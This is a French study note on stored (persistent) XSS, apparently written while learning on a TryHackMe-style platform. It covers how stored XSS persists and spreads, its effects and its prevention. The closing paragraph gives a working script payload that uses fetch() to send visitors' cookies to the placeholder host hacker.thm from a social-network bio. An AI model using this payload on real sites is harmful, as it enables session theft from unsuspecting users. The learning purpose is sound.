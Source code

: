 [https://owasp.org/www-community/attacks/xss/](https://owasp.org/www-community/attacks/xss/ "https://owasp.org/www-community/attacks/xss/")  
XSS hunter  
[https://github.com/wisec/domxsswiki/wiki](https://github.com/wisec/domxsswiki/wiki "https://github.com/wisec/domxsswiki/wiki")

## Définition

###### Qu'est ce qu'une injection XSS :  

Comment j'ai compris le fonctionnement (important) :  
1. **Persistantes** :
	- Les injections XSS persistantes restent dans le contenu du site, même après la soumission initiale.
	- Elles sont stockées dans des endroits tels que les commentaires, les profils, les champs de publication, etc.
	- Lorsqu'une page est chargée, le code malveillant inclus dans le contenu est exécuté dans les navigateurs des utilisateurs.
2. **Propagation** :
    - Pour qu'une injection XSS se propage, le code malveillant doit être inclus dans le contenu visible par d'autres utilisateurs.
    - Les pages publiques, les forums, les sections de commentaires et les champs partagés sont des endroits propices à la propagation.
    - Le code malveillant est interprété et exécuté dans les navigateurs de tous les utilisateurs qui visitent la page.


3. **Exemples** :
    - Un commentaire malveillant contenant une injection XSS peut s'afficher sur une page de discussion, affectant les visiteurs suivants.
    - L'injection XSS dans un profil peut être vue par d'autres utilisateurs visitant ce profil.
    - Les injections ciblées peuvent exploiter des fonctions spécifiques du site, comme le changement d'adresse e-mail, et causer des effets malveillants.


4. **Effets** :
    - Les utilisateurs exposés au code malveillant peuvent être incités à effectuer des actions non intentionnelles.
    - Les attaques peuvent aller de l'affichage d'alertes à des manipulations de données, des réinitialisations de mot de passe, etc.


5. **Prévention** :
    - Les développeurs doivent valider, filtrer et échapper correctement les entrées utilisateur.
    - Les sites doivent mettre en œuvre des politiques de sécurité, des pare-feux applicatifs et des audits de code.
    - Les utilisateurs doivent être conscients des risques de sécurité en ligne et éviter de cliquer sur des liens suspects.

- En gros, si je suis sur un réseau social, j'ai identifié une xss possible dans ma biographie, j'injecte du javascript qui renvoie les cookie par exemple `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`. Donc la biographie contiendra du js qui renverra directement les cookie de la sessions, de celui qui voit ma bio, à l'adresse spécifié. En fait l'injection est stocké avec le texte que j'ai mis a coté (pas obligé qu'il y ai du texte, c'est juste pour illustrer) donc y'a pas de truc bizarre en mode je m'adapte au code source, l'injection est vraiment juste posé et retranscrite à ceux qui accederont a la page.
